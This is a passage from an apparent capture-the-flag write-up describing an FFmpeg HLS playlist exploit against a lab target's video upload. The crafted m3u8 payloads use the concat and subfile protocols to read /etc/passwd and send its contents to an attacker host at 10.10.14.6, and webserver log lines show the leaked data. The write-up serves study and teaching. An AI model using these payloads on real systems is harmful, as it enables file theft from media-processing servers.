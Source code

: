 

Next, `mal.avi` just will trigger the call to get `header.m3u8`:



    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    concat:http://10.10.14.6/header.m3u8|file:///etc/passwd
    #EXT-X-ENDLIST



It's using the FFmpeg `concat`
[protocol](https://ffmpeg.org/ffmpeg-protocols.md#concat) and `file`
[protocol](https://ffmpeg.org/ffmpeg-protocols.md#file) to and
exploiting a bug that will cause that URL to be visited, leaking (at
least part of) the file.

On uploading `mal.avi`, there's hit at the webserver, including a
request for the header file and then exfil data:



    10.10.11.157 - - [28/Jul/2022 09:45:21] "GET /header.m3u8 HTTP/1.1" 200 -
    10.10.11.157 - - [28/Jul/2022 09:45:21] "GET ?root:x:0:0:root:/root:/bin/bash HTTP/1.1" 301 -



That's the first line of an `/etc/passwd` file. Unfortunately, it gets
cut at any newline character.

#### Read Next Line

Still following the hackerone report, to get the next line of the file,
I'll count that the first line had 32 characters in it (including the
new line):



    oxdf@hacky$ echo "root:x:0:0:root:/root:/bin/bash" | wc -c
    32



Instead of using the `file` protocol, it's now using the `subfile`
[protocol](https://ffmpeg.org/ffmpeg-protocols.md#subfile) to read
parts of a file. The number is based at 0 (despite what the hackerone
report implies):



    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    concat:http://10.10.14.6/header.m3u8|subfile,,start,32,end,10000,,:///etc/passwd
    #EXT-X-ENDLIST



On submitting, it returns the next line:


